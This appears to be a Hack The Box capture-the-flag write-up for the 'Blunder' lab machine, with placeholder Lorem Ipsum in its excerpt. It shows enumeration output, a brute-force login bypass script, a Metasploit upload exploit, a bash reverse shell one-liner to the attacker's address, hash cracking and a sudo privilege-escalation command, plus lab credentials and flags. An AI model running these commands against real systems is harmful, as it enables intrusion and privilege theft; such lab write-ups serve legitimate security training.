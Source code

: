```yaml
---
layout: single
title: Blunder - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-06-04
classes: wide
header:
  teaser: /assets/images/htb-writeup-blunder/blunder_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-blunder/blunder_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------

   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. root@nidus:/git/htb/cache# nmap -Pn -sC -sV -n 10.10.10.191
    PORT   STATE  SERVICE VERSION
      21/tcp closed ftp
      80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
      |_http-generator: Blunder
      |_http-server-header: Apache/2.4.41 (Ubuntu)
      |_http-title: Blunder | A blunder of interesting facts

    DIRB:
      + http://10.10.10.191/0 (CODE:200|SIZE:7562)
      + http://10.10.10.191/about (CODE:200|SIZE:3281)
      ==> DIRECTORY: http://10.10.10.191/admin/
      + http://10.10.10.191/cgi-bin/ (CODE:301|SIZE:0)
      + http://10.10.10.191/LICENSE (CODE:200|SIZE:1083)
      + http://10.10.10.191/robots.txt (CODE:200|SIZE:22)
      + http://10.10.10.191/server-status (CODE:403|SIZE:277)

    NIKTO:
      + "robots.txt" contains 1 entry which should be manually viewed.

    FFUF dirb/common.txt (.php, .html, .txt):
      install.php        [Status: 200, Size: 30, Words: 5, Lines: 1]
      robots.txt         [Status: 200, Size: 22, Words: 3, Lines: 2]
      todo.txt           [Status: 200, Size: 118, Words: 20, Lines: 5]

2. Looking at the webpage we find nothing really of use. Dirb gives us a login under /admin, however we don't have any creds.
   install.php only says that Bludit is already installed
   robots.txt hows nothing
   todo.txt however gives us something;

    -Update the CMS
    -Turn off FTP - DONE
    -Remove old users - DONE
    -Inform fergus that the new blog needs images - PENDING

  My conclusion from this - CMS is old version, and there are probably a user named fergus.


3. Looking through the source code of the webpage we find that the software version is 3.9.2.

    <!-- Include Bootstrap CSS file bootstrap.css -->
    <link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2">

  Looking for vulnerabilities in Bludit 3.9.2 we find a page and a script to bypass brute force protection.
  https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb

  Enter found username (fergus), along with the url and standard wordlist rockyou.txt - no dice. We're missing something here
  the password doesn't seem the be a default from rockyou.txt.

  Using cewl we can try to create our own, custom, wordlist.
    root@nidus:/git/htb/blunder# cewl -w blunder-wl.txt -d 4 -m 5 http://10.10.10.191
    root@nidus:/git/htb/blunder# cat brute.py
      #!/usr/bin/env python3
      import re
      import requests

      host = "http://10.10.10.191" # change to the appropriate URL

      login_url = host + '/admin/'
      username = 'fergus' # Change to the appropriate username
      fname = "blunder-wl.txt" #change this to the appropriate file you can specify the full path to the file
      ..

    root@nidus:/git/htb/blunder# python3 brute.py
      ..
      [*] Trying: RolandDeschain

      SUCCESS: Password found!
      Use fergus:RolandDeschain to login.


  4. We are now able to access /admin. Continue to enumerate for Bludit 3.9.2 vulns and we find a Code Execution vuln in the
     upload function.

     https://github.com/bludit/bludit/issues/1081
     I tried to get this exploit to work manually, however I wasn't able to. So instead I went to the msf module
     'linux/http/bludit_upload_images_exec' that gave a reverse meterpreter shell right away.

     msf5 exploit(linux/http/bludit_upload_images_exec) > options

      Module options (exploit/linux/http/bludit_upload_images_exec):

         Name        Current Setting      Required  Description
         ----        ---------------      --------  -----------
         BLUDITPASS  RolandDeschain       yes       The password for Bludit
         BLUDITUSER  fergus               yes       The username for Bludit
         Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
         RHOSTS      10.10.10.191         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
         RPORT       80                   yes       The target port (TCP)
         SSL         false                no        Negotiate SSL/TLS for outgoing connections
         TARGETURI   /                    yes       The base path for Bludit
         VHOST                            no        HTTP server virtual host

     msf5 exploit(linux/http/bludit_upload_images_exec) > run

       [*] Started reverse TCP handler on 10.10.14.17:4488
       [+] Logged in as: fergus
       [*] Retrieving UUID...
       [*] Uploading umtMhoBAyo.png...
       [*] Uploading .htaccess...
       [*] Executing umtMhoBAyo.png...
       [*] Sending stage (38288 bytes) to 10.10.10.191
       [*] Meterpreter session 1 opened (10.10.14.17:4488 -> 10.10.10.191:53692) at 2020-06-04 17:53:55 +0200
       [+] Deleted .htaccess

       meterpreter > shell
        Process 4654 created.
        Channel 1 created.
        whoami
        www-data


5. Looking around in the box we find 2 hashed passwords in /var/www/bludit-3.9.2/bl-content/databases, however we are unable to
   crack them. Enumerating further we find their new, updated version bludit 3.10 directory. Browsing to the database dir we find
   a new user hash.

   pwd
    /var/www/bludit-3.10.0a/bl-content/databases
   cat users.php
    <?php defined('BLUDIT') or die('Bludit CMS.'); ?>
    {
        "admin": {
            "nickname": "Hugo",
            "firstName": "Hugo",
            "lastName": "",
            "role": "User",
            "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",

     rockyou.txt doesn't contain the password, so using crackstation.net solved it for us - Password120

     su hugo
      Password: Password120
     whoami
      hugo
     cat /home/hugo/user.txt
      7648136cd484168abf3ba60f6687fe65


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. The reverse meterpreter shell won't allow us to execute 'sudo -l', so start by creating a new reverse shell - and upgrade it.

    bash -i >& /dev/tcp/10.10.14.17/4488 0>&1
    root@nidus:/git/htb/blunder# nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.17] from (UNKNOWN) [10.10.10.191] 54502
      bash: cannot set terminal process group (1093): Inappropriate ioctl for device
      bash: no job control in this shell
      hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$


    hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -l
      Password:
      Matching Defaults entries for hugo on blunder:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

      User hugo may run the following commands on blunder:
          (ALL, !root) /bin/bash


2. A quick google on '(ALL, !root) /bin/bash' shows us that we can escalate privs using 'sudo -u#-1 /bin/bash'

    hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -u#-1 /bin/bash
    root@blunder:/var/www/bludit-3.10.0a/bl-content/databases# whoami
      root
    root@blunder:/var/www/bludit-3.10.0a/bl-content/databases# cat /root/root.txt
      4f812395afcaa35870cc99487a7ef108




██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
